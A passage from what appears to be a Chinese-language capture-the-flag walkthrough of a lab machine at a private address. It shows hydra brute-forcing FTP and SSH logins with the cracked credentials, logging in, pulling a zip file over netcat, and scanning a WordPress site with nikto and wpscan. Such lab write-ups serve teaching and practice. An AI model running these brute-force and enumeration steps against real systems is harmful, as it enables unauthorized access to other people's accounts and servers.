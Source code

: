 hydra -L user_dayu.txt -P user_dayu.txt 10.211.55.37 ftp

[21][ftp] host: 10.211.55.37   login: SHayslett   password: SHayslett

ftp枚举：
ftp 10.211.55.37
SHayslett
SHayslett
dir
里面非常多的文件信息，download下来后没发现什么有用利用的！

6、爆破ssh

hydra -L user_dayu.txt -P user_dayu.txt 10.211.55.37 ssh

[22][ssh] host: 10.211.55.37   login: SHayslett   password: SHayslett

获得ssh登录账号密码！

ssh SHayslett@10.211.55.37   ---成功登录

到了这一步有非常多的提权方法，咱们继续分析该项目环境！


7、nc信息枚举666端口
发现这是一个文件！

nc 10.211.55.37 666 > dayu
file dayu   ---dayu: Zip archive data, at least v2.0 to extract 
这是一个zip压缩文件，解压看看！

└─# unzip dayu
Archive:  dayu
  inflating: message2.jpg
获得message2的jpg图片！

给了两个cookie值！留着！


8、枚举http 12380服务

访问：http://10.211.55.37:12380/

nikto -h http://10.211.55.37:12380/
/admin112233/
/blogblog/
/phpmyadmin/:
发现三个目录和robots.txt！还提示SSL Info，说明是ssl访问的！不然http访问都会重定向回来！


1）https://10.211.55.37:12380/admin112233/
回显：This could of been a BeEF-XSS hook ;)

2）https://10.211.55.37:12380/blogblog/
发现是个正常页面，丢到AWVS扫描！  ---扫描发现这是WordPress 4.2.2 多个漏洞

wpscan --url https://10.211.55.37:12380/blogblog/ --disable-tls-checks
--disable-tls-checks  ---因为会受到SSL对等证书/SSH错误临时用法！

https://wpscan.com/register  访问进入：

